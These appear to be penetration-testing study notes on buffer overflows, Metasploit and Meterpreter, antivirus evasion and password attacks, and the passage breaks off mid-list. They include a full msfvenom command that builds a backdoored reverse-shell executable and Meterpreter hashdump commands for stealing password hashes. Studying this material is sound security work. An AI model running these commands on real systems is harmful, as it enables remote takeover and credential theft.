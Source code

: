 Buffer Overflow: Metasploit’s msfelfscan (Linux), msfpescan(Win): Defense: Windows Defender exploit guard
  strcpy, strncpy, strcat, sprintf, scanf, fgets, getws, memcpy, memmove      [ID: extra accounts appear in system]
-	Cram Input Brute force tool for buffer overflow (application to crash)    [replaced with Heap Overflow]
-	Microsoft’s automatic crash analysis tool:  “!exploitable”
-	Windows canaries (Protects Integrity by computing keyed hash of RP | block exploit developers to perform buffer overflow attack) (Random, XOR, Terminator)
-	By using NOP Sled (improved odds of buffer overflow attack to work)
-	Stack: Last In First Out (LIFO)
 

Metasploit modules: exploit, auxillary, payload, post module
-	Over 1850 exploits for all platforms (win, *nix, android, ios, servers, databases, etc.), 32 and 64 bit
-	Payloads can be exported in c, perl, ruby code
-	Meterpreter (big payload): DLL injection into running process (Win, Linux, Java, Python, Android, Web targets)
o	VirtualAllocEx is the API call to allocate free space
o	multisessions possible / gps locations / webcam
o	meterpreter > run post/windows/gather/smart_hashdump  (for reading from disk)
o	meterpreter > run hashdump (read from registry) | meterpreter> hashdump (read from memory)
o	meterpreter > ps (list running process w/ PID) |  meterpreter> migrate <pid>
-	has routines for exploit development  (a simple reboot will remove the exploit from target system)
https://www.cobaltstrike.com/ -> post exploitation agent and covert channels to emulate long term session

msfelfscan (Linux) & msfpescan(Win) is used to search vulnerabilities in machine language of executables & libraries within target system
Shellcode generation wrappers will generate shellcode payloads that are configured to avoid detection on a target system
Privilege escalation can be used to alter NTFS timestamps and dump password hashes from the SAM registry key 
IDS evasion encoders will encode an exploit and payload for delivery on a target system
Protocol parser (lack of bound checks) and file parsers (compress & decompress) have buffer overflow problems 
Endpoint Bypass: Run_On_Open is possible with PowerPoint file
-	start a malware through a trusted binary (bypasses endpoint protection)

Veil Evasion: and Magic Unicorn (python):    Use to generate payload that bypasses Antivirus
#msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -x templates/write_x64.exe -f exe -o msf64_rtcp443.exe
Ghostwriting: Decompile Exe to Assembly (.asm), change code, Compile back to Exe  bypass antivirus
InstallUtil-ShellCode.cs  Uses Microsoft’s uninstall binary to install malware

# Password attacks
PAM: Pluggable Authn Modules | Link Linux / Unix to external authn: RADIUS, Kerberos, etc.
Enforce pwd complexity:
•	pam_passwdqc (custom w/ cmd line tools) | pwqcheck (test for complex req) | pwqgen (generate pwd)
Encrypted or hashed passwords are often referred to as password representations.
Windows stored in SAM table + AD and Linux in /etc/shadow file.
Password spraying: Using a small set of passwords against a large set of usernames (to avoid account lockouts)
•	Password guessing
o	Tends to be slower than password cracking (although depends on network and system perf)
•	Password cracking
o	Stealing encrypted / hashed passwords and guessing/decrypting on attacker’s own methods
o	Stealthier than password guessing
o	Doesn’t lock out accounts
•	Windows LANMAN passwords are all uppercase after cracked; 2n possibilities for actual password after cracking
•	Interesting files to look for, after successful exploitation: 